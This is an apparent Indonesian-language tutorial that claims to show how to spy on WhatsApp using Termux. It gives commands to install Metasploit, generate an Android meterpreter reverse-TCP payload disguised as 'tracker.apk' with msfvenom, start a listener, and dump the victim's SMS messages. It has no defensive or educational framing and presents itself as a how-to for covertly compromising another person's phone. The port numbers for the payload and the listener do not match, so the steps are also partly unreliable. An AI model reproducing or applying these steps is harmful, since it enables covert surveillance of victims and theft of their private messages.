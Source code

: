 # sadapwa dengan termux


adap wa dengan termux , meskipun tutorial kali ini susah untuk dilakuka untuk para pemula tapi setidaknya kita mencoba terlebih dahulu gimana cara sadap wa dengan menggunakan aplikasi termux, untuk tutorial lengkapnya di bawah ini
buka aplikasi termux
masukan semua kode perintah di bawah ini satu persatu
 apt update && apt upgrade
pkg install unstable-repo
pkg install metasploit
kode perintah untuk sadap wa
 msfconsole
kemudian masukan kode perintah di bawah ini
 msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=8080 -o /sdcard/tracker.apk 
kode perintah Proses sadap wa
 use multi/handler
. set payload android/meterpreter/reverse_tcp
. set lhost 192.168.1.101
. set lport 4444
. exploit
menjalankan perintah sadap wa
 dump_sms


untuk informasi lengka cek di https://www.kumpulanremaja.com/2019/12/cara-sadap-chatting-whatsapp.html
